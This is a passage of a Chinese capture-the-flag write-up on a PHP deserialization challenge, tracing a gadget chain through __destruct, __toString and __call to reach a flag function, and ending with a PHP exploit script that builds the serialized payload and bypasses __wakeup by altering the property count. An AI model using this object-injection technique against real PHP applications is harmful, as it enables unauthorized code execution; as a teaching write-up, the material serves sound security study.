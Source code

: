 ```
  public function __toString()
  {
    $this->a->a($this->b);
    return 'this is B';
  }
}

if (isset($_GET['str']))
  unserialize($_GET['str']);
```

 

分析下代码

最后肯定是要回到flag函数的

先找入口,destruct可以执行$this->a，a是可控的

那就可以触发B类的toString方法

如果控制B类中的a为new A，那么就会调用A类中一个不存在的方法,触发__call，而控制参数$this->b为flag就可以通过call_user_func回调flag函数(这里回调的方法还不是很懂,我总感觉应该回调a,但是它确确实实回调了flag)

其实这是确实是回调的a,但是call_user_func这个函数是不区分大小写的,又是因为是个数组,所以相当于回调了A类里面的flag函数

但是这里并没有完,我们在反序列化时还有过滤__wakeup方法

贴exp

```php
<?php

class A
{

    public $a;
    private $b;
    protected $c;
}

class B
{

    public $a;
    private $b;
    protected $c;
    public function __construct()
    {
        $this->b = 'flag';
    }
}

$t = new A();
$s = new B();
$s->a = $t;
$t->a = $s;
$p = serialize($t);
$p = str_replace('A":3', 'A":4', $p);
echo urlencode($p);

```
